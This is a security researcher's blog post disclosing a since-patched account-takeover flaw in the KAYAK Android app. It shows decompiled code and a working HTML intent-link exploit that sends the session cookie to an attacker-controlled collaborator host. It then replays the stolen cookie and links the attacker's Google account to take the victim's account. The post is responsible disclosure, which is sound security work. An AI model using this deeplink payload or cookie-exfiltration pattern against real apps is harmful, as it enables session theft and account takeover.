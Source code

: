 ```yaml
---
slug: account-takeover-kayak/
title: Account Takeover in KAYAK
date: 2022-11-23
subtitle: So it's the app itself that delivers the cookie to me?
category: attacks
tags: vulnerability, hacking, exploit, software, code
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1669164815/blog/account-takeover-kayak/cover_account_takeover_kayak.webp
alt: Photo by Nahel Abdul Hadi on Unsplash
description: In this blog post, I present in detail a zero-day vulnerability I discovered in KAYAK v161.1, along with the steps to follow to replicate the exploit.
keywords: Kayak, Mobile Application, Android, Session Cookie, Vulnerability, Exploit, Improper Access Control, Ethical Hacking, Pentesting
author: Carlos Bello
writer: cbello
name: Carlos Bello
about1: Security Researcher
source: https://unsplash.com/es/fotos/flha0KwRrRc
---
```


While researching zero-day vulnerabilities in mobile applications,
I found it's possible to steal a user's session cookie
through a malicious deeplink
in KAYAK v161.1.
Below,
I will explain this vulnerability in detail,
where it is located in the code
and what steps must be taken to replicate the exploit.

## Where is this vulnerability?

I found the following exported activity
in the AndroidManifest.xml file:

```xml
<activity android:name="com.kayak.android.web.ExternalAuthLoginActivity" android:exported="true" android:launchMode="singleTask">
    <intent-filter>
        <data android:scheme="kayak"/>
        <data android:host="externalAuthentication"/>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
    </intent-filter>
</activity>
```

This means that
any app installed on a mobile device
with that vulnerable version of KAYAK
can interact with this activity.
In addition,
this activity can be called from a deeplink
and accepts implicit intents.

## ExternalAuthLoginActivity

After noticing that,
I immediately went to the exported activity
to see what it did and how it did it.
While analyzing and reading the source code,
I came across two very striking functions:

```java
 private final String getRedirectUrl() {
        String stringExtra = getIntent().getStringExtra(EXTRA_REDIRECT_URL);
        return stringExtra == null ? "" : stringExtra;
 }

 private final void launchCustomTabs() {
        m.d b10 = new d.a(this.helper.getSession()).g(true).b();
        p.d(b10, "Builder(helper.session)\n…rue)\n            .build()");
        Uri.Builder buildUpon = Uri.parse(getRedirectUrl()).buildUpon();
        buildUpon.appendQueryParameter(SESSION_QUERY_PARAM, l.getInstance().getSessionId());
        i.openCustomTab(this, b10, buildUpon.build(), null);
 }
```

Since the activity is exported,
a malicious web page via a deeplink,
or a malicious mobile app via an intent,
could set up a malicious RedirectUrl
using the getRedirectUrl function.
Okay,
but for this to have an impact,
we need to see what we can do about this behavior.

That's where the launchCustomTabs method comes in,
which,
as we see,
concatenates a GET parameter to the URL.
That GET parameter is the mobile app user's session cookie:

```java
public final String getSessionId() {
        String cookieValueInternal;
        synchronized (this) {
            cookieValueInternal = getCookieValueInternal(SESSION_COOKIE_NAME);
        }
        return cookieValueInternal;
}
```

```java
public static final String SESSION_COOKIE_NAME = "p1.med.sid";
```

With this in mind,
I didn't hesitate to log into the web application
and delete all cookies
to end up with a request like the following:

```txt
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=[Cookie Here];
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

I uploaded the exploit to a malicious server:

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="intent://externalAuthentication#Intent;scheme=kayak;package=com.kayak.android;component=com.kayak.android.web.ExternalAuthLoginActivity;action=android.intent.action.VIEW;S.ExternalAuthLoginActivity.EXTRA_REDIRECT_URL=https://jsfl9yn414bp1z2sujwfjsj3ruxlla.burpcollaborator.net;end">Exploit</a>;
    </body>
</html>
```

Then,
I opened it from the mobile app.
Checking the malicious server logs,
I saw how my account session cookie was leaked.
So I copied it and put it in the request I showed above:

```html
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=65-R-4rhBEjEeCTHTB5bkcdEoO-RUM4RJuW5YvCJ3nfrsvdH0UbkjGBywHzVgsV0u8_Ys-4ay0zqH2q0Jt8H8EXM2yN-QEmydDQIbJ1eAmYZzh6nablokLtpHYCBUNGs7aoae;
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

## Account takeover POC

Below is a video demonstration of the exploitation
of this vulnerability:

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/vmTDH8QpMnA"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

## Problems and more problems - Account linking

I have found that
once I steal the victim's cookie
and log into the web application with it,
I can see the victim's data without any problem.
However,
I cannot edit them for some strange reason.
Therefore,
investigating the web application,
I realized that an attacker could gain full access to the account
—and then view, edit, delete information, etc.—
by simply linking a Google account
(or any other available provider).

In this case,
I linked a Google account corresponding to the attacker
to the victim's account.
The goal was that
the attacker would then only have to log into the application
from his Google account
to gain access to the victim's account.

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/AgJRDqsawHU"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

That's it.
An unauthenticated,
remote attacker can steal the account of any victim
logged into the KAYAK mobile app for Android
with a one-click attack.

## Timeline

### August 12, 2022

- Vulnerability reported:
  Improper Access Control
  (CVSS: 9.3; Critical)

- Vulnerability triaged

### August 13, 2022

- USD 3,000 bounty awarded

- Vulnerability remediated

- KAYAK v161.2 (10048) available on Play Store

Fluid Attacks is a red team
that identifies security vulnerabilities in your applications,
such as the one presented here
and many more.
If you want to start trying the security tests
with our automated tools,
we invite you to register for a [21-day free trial](../../free-trial/).
If you have any questions,
[get in touch with us](../../contact-us/).
